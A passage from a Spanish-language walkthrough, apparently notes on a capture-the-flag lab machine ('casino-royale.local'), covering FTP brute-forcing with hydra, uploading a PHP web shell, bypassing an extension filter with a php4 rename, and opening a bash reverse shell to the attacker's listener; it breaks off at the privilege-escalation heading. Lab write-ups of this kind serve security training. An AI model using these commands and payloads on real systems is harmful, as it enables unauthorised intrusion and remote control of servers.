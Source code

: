 - ``hydra -l ftpUserULTRA -P /usr/share/wordlists/rockyou.txt ftp://192.168.0.25 -t 20``

### FTP Service

Para que tengan en cuenta, la contraseña está cerca de la línea número *48.000* por lo tanto la fuerza bruta tardará aproximadamente tres horas, hay que tener paciencia.

La contraseña es: `bankbank`

------

Recordemos que nosotros de la web ``http://casino-royale.local/ultra-access-view/main.php`` retrocedimos un directorio a ``http://casino-royale.local/ultra-access-view``, y al entrar al servicio **FTP** y hacer un ``ls`` veremos que están los **mismos directorios** que en la web, por lo tanto podemos aprovecharnos de esto.

Una vez dentro del servicio FTP podemos meter un archivo ``php`` malicioso para que nos lo interprete y de esta forma sea ejecutado por nosotros desde la web, en este archivo colocaremos una instrucción que nos entable ejecución remota de comandos.

```php
<?php
	system($_GET['cmd'])
?>
```

Si intentamos de primeras subir el archivo con ``put cmd.php`` no vamos a poder, porque por detrás hay algún tipo de protección que no permite traer archivos con extensiones, por lo tanto subiremos el archivo pero con nombre ``cmd``. 
Una vez hecho lo anterior podemos **renombrar el archivo** desde dentro del servicio **FTP** de ``cmd`` a ``cmd.php``, esto lo podemos hacer con ``rename``, si lo intentamos veremos que no podemos ya que la sanitización del servicio se ve que evita los archivos con extensión ``php``, por lo tanto probaremos con otras extensiones de ``php`` que son válidas también, para esto podemos apoyarnos de la unidad de [[Abuso de subida de archivos]].

En mi caso la extensión que funcionó fue ``php4`` por lo tanto ahora solo quedaría ir a la web, abrir el archivo que hemos subido y probar el parámetro ``?cmd=`` en la **URL** para intentar inyectar comandos.

![[MV 5.png]]

Ahora solo quedaría entablar la **Reverse Shell** primero poniéndonos en escucha con ``nc -nlvp 443``

![[MV 6.png]]

- ``casino-royale.local/ultra-access-view/test/cmd.php4?cmd=bash -c 'bash -i >%26 /dev/tcp/192.168.0.194/443 0>%261'``

![[MV 7.png]]

Ahora solo quedaría la etapa de escalada de privilegios.

## Escalada de privilegios
